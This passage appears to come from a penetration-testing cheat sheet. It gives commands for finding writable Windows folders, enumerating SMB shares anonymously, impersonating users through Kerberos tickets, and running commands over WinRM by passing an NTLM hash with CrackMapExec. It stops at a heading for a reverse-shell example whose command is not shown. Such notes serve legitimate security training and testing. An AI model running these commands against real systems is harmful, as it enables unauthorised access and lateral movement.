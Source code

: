 ### Trusted Folders (Windows)

```console
accesschk.exe "ceso" C:\ -wus
  -> -w is to locate writable directories
  -> -u supress errors
  -> -s makes recursion on all subdirectories

icacls.exe C:\Windows\Tasks
  ^-- Verify if Tasks has execution permissions for example (flag is "RX")
```


### Samba

#### smbclient 

Check if there is anonymous login enabled:

```console
smbclient -L 192.168.24.24
```

#### impacket

Is also possible to use impacket in the same way than smbclient to check for anonymous login (and a lot more as browse the shares) in case of incompatible versions.

```console

/usr/share/doc/python3-impacket/examples/smbclient.py ""@192.168.24.24
```

#### smbmap

Check which permissions we have in those shares (if there are):

```console
smbmap -H 192.168.24.24
Or having an user:
smbmap -u ceso -H 192.168.24.24
```

### Login through CIFS/WinRM/PSSession

When injecting a ticket and impersonating a user, we can swap `CIFS` for `HTTP` for getting a shell via WinRM or swap `CIFS` for `HOST` for getting a shell via PsExec!!!

#### CrackMapExec - WinRM

With Hash

```console
crackmapexec winrm 172.16.80.24 -u administrator -H 09238831b1af5edab93c773f56409d96 -x "ipconfig"
```

With Password (Example gets a reverse shell)
